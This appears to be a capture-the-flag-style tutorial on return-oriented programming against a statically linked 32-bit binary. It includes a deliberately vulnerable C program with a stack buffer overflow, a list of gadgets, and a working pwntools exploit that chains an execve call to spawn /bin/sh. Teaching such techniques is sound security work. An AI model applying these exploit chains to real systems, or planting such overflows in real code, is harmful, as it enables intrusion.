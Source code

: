 # ROP Static

## Source Code

```C
// gcc -m32 -fno-stack-protector -no-pie -static -o vuln vuln.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

char *str = "/bin/sh";          // <- RODATA

#define BUFFSIZE 136

void vuln()
{
    char buffer[BUFFSIZE];
    read(0, buffer, 0x200);     // <- this code causes buffer overflow
}

int main()
{
    vuln();
}
```

## Overview & Main Idea

- Let's check some informations about binary file

![img](/ROP/Static/assets/check_file.png)

> NX is enabled so we can't ret2shellcode, but this program has statically linked and no PIE, we can use ROPgadget to find some gadgets in binary file and use it to implement something like exceve("/bin/sh", 0, 0) to get shell :3

## Details

### A bit about ROP

- Return Oriented Programming is a technique in which we use existing small snippets of assembly code/gadgets to create a chain of instructions which will eventually spawn a shell or cause the program to do some complex things. This is method is usually employed when there is a Stack buffer overflow and there are no win or give_shell functions. So we use ROP to invoke system or an execve syscall.

- Its called ROP as the basic idea of the technique is to use the ret statement to change control flow of the program. We use a tool called ROPgadget for finding gadgets. Another tool used for the same is ropper

- You can see this example to understand how does ROP work

![img](/ROP/Static/assets/ROP.png)

- To implement exceve("/bin/sh", 0, 0), we look up exceve's system call number in the syscall table of x86_32 bit 

![img](/ROP/Static/assets/exceve_syscall.png)

```
exceve("/bin/sh", 0, 0) in assembly

eax     -     0x0b
ebx     -     char* "/bin/sh"
ecx     -     0x0
edx     -     0x0

int     0x80
```

- First we find the offset that we need to overwrite. By some simple steps, I find it's 148 bytes :3.

- Next, I found some gadgets below with ROPgadget.

![img](/ROP/Static/assets/gadget.png)

- Finally, we need to find "/bin/sh" string, "/bin/sh" stored in RODATA because of its initialization `char *str = "/bin/sh"`

![img](/ROP/Static/assets/bin_sh.png)

## Exploit

```python
# 0x0806003e : pop edx ; pop ebx ; pop esi ; ret
# 0x080a8b2a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0805d393 : pop ecx ; ret
# 0x80b3008    "/bin/sh"
# 0x0804b5c2   int 0x80
# offset 148

from pwn import *

elf = ELF("./vuln")
p = elf.process()

payload = b"a"*148
payload += p32(0x0806003e)
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x2)
payload += p32(0x080a8b2a)
payload += p32(0x0b)
payload += p32(0x80b3008)
payload += p32(0x0)
payload += p32(0x0)
payload += p32(0x0805d393)
payload += p32(0x0)
payload += p32(0x0804b5c2)

p.sendline(payload)
p.interactive()
```

## Result

![img](/ROP/Static/assets/result.png)

## Reference

[syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

[ROPstatic](https://wiki.bi0s.in/pwning/rop/static/)